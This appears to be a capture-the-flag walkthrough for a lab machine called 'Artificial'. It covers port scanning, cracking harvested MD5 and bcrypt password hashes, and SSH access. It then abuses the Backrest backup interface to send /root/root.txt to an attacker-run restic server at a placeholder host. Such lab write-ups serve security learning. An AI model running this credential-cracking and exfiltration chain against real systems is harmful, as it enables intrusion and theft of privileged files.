

# Artificial Walkthrough

Author: Mrn0b0dy  
Date: 6/29/2025

## Scanning...

```bash
nmap -sV -O 10.10.11.74

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 06:14 +06
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.32s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3030/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)

```
#### We found ports 22, 80, and 3030 open. Let's check them.
#### Port 3030 is what we are heading for. It contains a DB file with a few usernames and passwords.
#### We have to hash them.

## User Access
```
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --outfile cracked2.txt
```
##### Explanation: Only put hashes in hashes.txt. Since it is in MD5 format, use -m 0 and directly crack it, so we used -a 0 with the rockyou.txt wordlist built into most Kali Linux boxes, then output it to cracked2.txt.

### Looking through them, we find that only 2 are useful and 1 is accessible, which is gael.

```
ssh gael@artificial.htb            
gael@artificial.htb's password: 
```
```
gael@artificial:~$ ls
user.txt
```
Congrats, you successfully found the user hash.

## Root Access
#### It can be done in two ways, but do it this way as you will learn a lot more...
#### Let's snoop around as gael.
#### Seems interesting.

```
gael@artificial:/var/backups$ ls
apt.extended_states.0     apt.extended_states.2.gz  apt.extended_states.4.gz  apt.extended_states.6.gz
apt.extended_states.1.gz  apt.extended_states.3.gz  apt.extended_states.5.gz  backrest_backup.tar.gz
```
#### We found backrest_backup.tar.gz, which might give us backrest access to the server.
##### Explanation: Backrest is backup software which can be controlled remotely too, and what we will do is back up the root flag to our Kali machine.
#### Download it...
```
┌──(root㉿mrnobody)-[/home/mrn0b0dy]
└─# scp gael@10.10.11.74:/var/backups/backrest_backup.tar.gz . 
```
#### There is a hash in there waiting to be cracked. This password will give us access to backrest with admin privileges.
```
hashcat -m 3200 -a 0 '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' /usr/share/wordlists/rockyou.txt
```
##### Explanation: This hash is in bcrypt so I used -m 3200.
#### Almost there. Now we have to open a listening port to receive the backup file which we will send from the backrest Web UI.
```
┌──(root㉿mrnobody)-[/home/mrn0b0dy/Desktop/rest-server_0.14.0_linux_amd64/rest-server_0.14.0_linux_amd64]
└─# ./rest-server --path /tmp/restic-data --listen :12345 --no-auth 
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
```
##### Explanation: Using the rest server from GitHub, we are listening on port 12345 for any incoming files. --path stores the file in that directory. --no-auth is optional but makes things easier.
#### Now let's set up a backrest UI to control it remotely.
```
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```
##### Explanation: ssh 'gael@10.10.11.74' logs us into the account. -L sets up local port forwarding, so 9898:127.0.0.1:9898 tells it to send all the traffic coming to port 9898 to 127.0.0.1, which we can now access through our Kali, VM, or attack box.
#### Now go to 127.0.0.1:9898 and log in with backrest_root and the password we cracked.
#### Now add a repo in the web UI.



#### No need to change anything else. Now go into the repo and run the command:
```
-r rest:http://insertip:12345/myrepo init
```
#### This will initiate a repository in the artificial box.
```
-r rest:http://insertip:12345/myrepo backup /root/root.txt
```
#### Run this to back up root.txt to your Kali Linux or your VM box.
#### If everything went alright, you have the root flag in your box!
#### Let's find it.
```
 restic -r /tmp/restic-data/myrepo snapshots
```
 #### Run this in your Kali/VM box.

```
└─# restic -r /tmp/restic-data/myrepo snapshots
enter password for repository: 

repository 9c2b17f4 opened (version 2, compression level auto)
created new cache in /root/.cache/restic
ID        Time                 Host        Tags        Paths           Size
---------------------------------------------------------------------------
365ab9e9  2025-06-29 08:22:09  artificial              /root/root.txt  33 B
---------------------------------------------------------------------------
1 snapshots
```
#### Copy the ID.
```
 restic -r /tmp/restic-data/myrepo restore 365ab9e9 --target ./restore 
enter password for repository: 
repository 9c2b17f4 opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
restoring snapshot 365ab9e9 of [/root/root.txt] at 2025-06-29 02:22:09.444236058 +0000 UTC by root@artificial to ./restore
Summary: Restored 2 files/dirs (33 B) in 0:00
```
```
cat /restore/root/root.txt   
```
Congrats!!!
You have successfully pwned Artificial.
## Please remember to follow my GitHub and my socials, Thanks!!!👌

